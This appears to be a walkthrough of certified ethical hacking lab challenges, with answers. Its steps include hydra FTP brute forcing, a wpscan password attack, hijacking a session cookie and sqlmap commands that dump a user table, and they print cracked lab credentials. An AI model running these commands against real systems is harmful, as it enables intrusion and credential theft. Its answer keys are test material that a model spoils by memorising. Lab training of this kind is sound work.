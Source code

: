 ### Challenge 10:
You are a web penetration tester hired to assess the security of the website www.goodshopping.com. Your primary task is to identify the type of security policies is missing to detect and mitigate Cross-Site Scripting (XSS) and SQL Injection attacks. *(Format: Aaaaaaa Aaaaaaaa Aaaaaa)*{: .highlight}
```bash
- Run Atomated scan with OWASP ZAP
```
Answer: `Content Security Policy`

### Challenge 11:
You are part of a cybersecurity team investigating an internal website that has been copied from a legitimate site without authorization. One of your teammates, acting as a spy, has scanned the website using a smart scanner within the subnet 192.168.10.0/24. Your task is to identify the number of Directory Listing of Sensitive Files on this website. The report, named w_report.pdf, is available on the target machine.(Hint: He remembered the OS as Windows Server 19 while scanning the website) *(Format: NN)*{: .highlight}  
```bash
- Use nmap to find Windows server 2019 inside 192.168.10.0/24 and brutefore that ip
- hydra -L user.txt -P rockyou.txt 192.168.10.144 ftp
- username: Parker and Password: Passw0rd@1234
- Access ftp and get w_report.txt
- open the report and read the site address
- Scan that website with Smart Scanner takes upto 30 min
- Scroll results to see Directory Listing of Sensitive Files.
- It shows 37 Approx but the answer is +/-1
  ```
Answer: `36`

### Challenge 12:
Perform a bruteforce attack on www.cehorg.com and find the password of user adam. *(Format: aaaaaaNNNN)*{: .highlight}
```bash
- wpscan --url http://www.cehorg.com/wp-login.php -U adam -P password.txt
- use password list in desktop
```
Answer: `orange1234`

### Challenge 13:
As a cybersecurity analyst, your task is to identify potential vulnerabilities on the moviescope.com website. Your manager has requested a specific number of risk categories. The required HTML file is located on EH Workstation 1. *(Format: N)*{: .highlight}
```bash
- Open html file inside videos folder
- count the no of risk with value 1
```
Answer: `3`

### Challenge 14:
Perform a SQL Injection attack on www.moviescope.com and find out the number of users available in the database. *(Format: N)*{: .highlight}
```bash
- Use credentials found in **Challenge** 2 to login.
- Copy the cookie value of user session lee in inspect element console, type document.cookie
- sqlmap -u "http://movies.cehorg.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" --dbs
- sqlmap -u "http://movies.cehorg.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moveiscope --tables
- sqlmap -u "http://movies.cehorg.com/viewprofile.aspx?id=1" --cookie="mscope=1jwuydl=; ui-tabs-1=0" -D moviescope -T user-Login --dump
```
Answer: `5`
